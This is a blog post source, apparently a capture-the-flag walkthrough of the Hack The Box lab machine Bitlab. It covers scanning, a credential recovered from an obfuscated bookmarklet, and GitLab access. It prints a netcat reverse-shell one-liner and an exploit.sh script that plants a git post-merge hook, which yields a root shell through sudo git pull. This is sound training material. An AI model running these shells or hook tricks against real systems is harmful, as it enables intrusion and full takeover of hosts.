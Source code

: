```yaml
---
layout: post
title: "Bitlab: Hack The Box Walkthrough"
date: 2020-01-12 08:36:49 +0000
last_modified_at: 2020-01-12 08:36:49 +0000
category: Walkthrough
tags: ["Hack The Box", Bitlab, retired, Linux]
comments: true
image:
  feature: bitlab-htb-walkthrough.jpg
  credit: Republica / Pixabay
  creditlink: https://pixabay.com/photos/flasks-erlenmeyer-chemistry-606612/
---
```


This post documents the complete walkthrough of Bitlab, a retired vulnerable [VM][1] created by [Frey][2] and [thek][3], and hosted at [Hack The Box][4]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

## On this post
{:.no_toc}

* TOC
{:toc}

## Background

Bitlab is a retired vulnerable VM from Hack The Box.

## Information Gathering

Let’s start with a `masscan` probe to establish the open ports in the host.

```
# masscan -e tun0 -p1-65535,U:1-65535 10.10.10.114 --rate=1000

Starting masscan 1.0.5 (http://bit.ly/14GZzcT) at 2019-09-10 06:27:53 GMT
 -- forced options: -sS -Pn -n --randomize-hosts -v --send-eth
Initiating SYN Stealth Scan
Scanning 1 hosts [131070 ports/host]
Discovered open port 22/tcp on 10.10.10.114                                    
Discovered open port 80/tcp on 10.10.10.114
```

Nothing special stands out. Let\'s do one better with `nmap` scanning the discovered ports to establish their services.

```
# nmap -n -v -Pn -p22,80 -A --reason -oN nmap.txt 10.10.10.114
...
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 a2:3b:b0:dd:28:91:bf:e8:f9:30:82:31:23:2f:92:18 (RSA)
|   256 e6:3b:fb:b3:7f:9a:35:a8:bd:d0:27:7b:25:d4:ed:dc (ECDSA)
|_  256 c9:54:3d:91:01:78:03:ab:16:14:6b:cc:f0:b7:3a:55 (ED25519)
80/tcp open  http    syn-ack ttl 62 nginx
|_http-favicon: Unknown favicon MD5: F7E3D97F404E71D302B3239EEF48D5F2
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 55 disallowed entries (15 shown)
| / /autocomplete/users /search /api /admin /profile
| /dashboard /projects/new /groups/new /groups/*/edit /users /help
|_/s/ /snippets/new /snippets/*/edit
| http-title: Sign in \xC2\xB7 GitLab
|_Requested resource was http://10.10.10.114/users/sign_in
|_http-trane-info: Problem with XML parsing of /evox/about
```

This is how the site looks like.

<a class="image-popup">
![daf62219.png](/assets/images/posts/bitlab-htb-walkthrough/daf62219.png)
</a>

### `robots.txt`

Long story short, I found an interesting file `bookmarks.html` at `/help`.

<a class="image-popup">
![0eeae026.png](/assets/images/posts/bitlab-htb-walkthrough/0eeae026.png)
</a>

There\'s a JavaScript hyperlink at GitLab Login.

<a class="image-popup">
![e5885788.png](/assets/images/posts/bitlab-htb-walkthrough/e5885788.png)
</a>

This is what it looks like.

```
javascript:(function(){ var _0x4b18=["\x76\x61\x6C\x75\x65","\x75\x73\x65\x72\x5F\x6C\x6F\x67\x69\x6E","\x67\x65\x74\x45\x6C\x65\x6D\x65\x6E\x74\x42\x79\x49\x64","\x63\x6C\x61\x76\x65","\x75\x73\x65\x72\x5F\x70\x61\x73\x73\x77\x6F\x72\x64","\x31\x31\x64\x65\x73\x30\x30\x38\x31\x78"];document[_0x4b18[2]](_0x4b18[1])[_0x4b18[0]]= _0x4b18[3];document[_0x4b18[2]](_0x4b18[4])[_0x4b18[0]]= _0x4b18[5]; })()
```

It's easy to decode the above in Scratchpad.

<a class="image-popup">
![100e7322.png](/assets/images/posts/bitlab-htb-walkthrough/100e7322.png)
</a>

As you can see, there's a credential (`clave:11des0081x`). I suppose that's for the GitLab login.

### GitLab

Let\'s give it a shot.

<a class="image-popup">
![001b2463.png](/assets/images/posts/bitlab-htb-walkthrough/001b2463.png)
</a>

Sweet.

### Something's up with the profile

Long story short, the creators have kindly left a PHP profile page under Settings for the purpose of getting that foothold.

<a class="image-popup">
![e92d2e0c.png](/assets/images/posts/bitlab-htb-walkthrough/e92d2e0c.png)
</a>

It coincides with the Profile repository under the Administrator's projects. Simply edit `index.php` and merge it to the master branch.

<a class="image-popup">
![51c81730.png](/assets/images/posts/bitlab-htb-walkthrough/51c81730.png)
</a>

Let\'s check it out.

<a class="image-popup">
![ea1271ea.png](/assets/images/posts/bitlab-htb-walkthrough/ea1271ea.png)
</a>

## Low-Privilege Shell

Time to connect back our reverse shell. For that, I'm using this one-liner.

```
rm -rf /var/tmp/p; mknod /var/tmp/p p; bash </var/tmp/p | nc 10.10.13.79 1234 >/var/tmp/p
```

On my `nc` listening at `1234/tcp`, a reverse shell appears...

<a class="image-popup">
![bec849d7.png](/assets/images/posts/bitlab-htb-walkthrough/bec849d7.png)
</a>

## Privilege Escalation

During enumeration of `www-data`\'s account, I notice that `www-data` is able to `sudo` to `root` without password for `git pull`.

<a class="image-popup">
![a552c8b9.png](/assets/images/posts/bitlab-htb-walkthrough/a552c8b9.png)
</a>

With that in mind, I wrote the following script to escalate my privileges using `git` hooks, particularly [`post-merge`](https://www.git-scm.com/docs/githooks#_post_merge).

The idea is simple. Initialize one Git repository, then `git clone` it to another. Update the first one, then perform a `git pull` on the second, triggering `post-merge` with `root` privileges.

<a class="image-popup">
![bf29dabd.png](/assets/images/posts/bitlab-htb-walkthrough/bf29dabd.png)
</a>

<div class="filename"><span>exploit.sh</span></div>

```bash
#!/bin/bash

one=$(mktemp -d -p /dev/shm)
two=$(mktemp -d -p /dev/shm)

cd $one
git init .
echo 'hello' > readme.md
git add .
git commit -m "add readme"

cd $two
git clone file://$one .

cd $one
echo 'hello world' > readme.md
git add .
git commit -m "update readme"

cd $two
echo '#!/bin/bash' > .git/hooks/post-merge
echo >> .git/hooks/post-merge
echo 'rm -rf /var/tmp/p; mknod /var/tmp/p p; bash </var/tmp/p | nc 10.10.13.79 4321 >/var/tmp/p' >> .git/hooks/post-merge
chmod +x .git/hooks/post-merge

# bombs away
sudo git pull
```

On my `nc` listening at `4321/tcp`, a `root` shell appears...

<a class="image-popup">
![6c649398.png](/assets/images/posts/bitlab-htb-walkthrough/6c649398.png)
</a>

:dancer:

[1]: https://www.hackthebox.eu/home/machines/profile/207
[2]: https://www.hackthebox.eu/home/users/profile/33283
[3]: https://www.hackthebox.eu/home/users/profile/4615
[4]: https://www.hackthebox.eu/
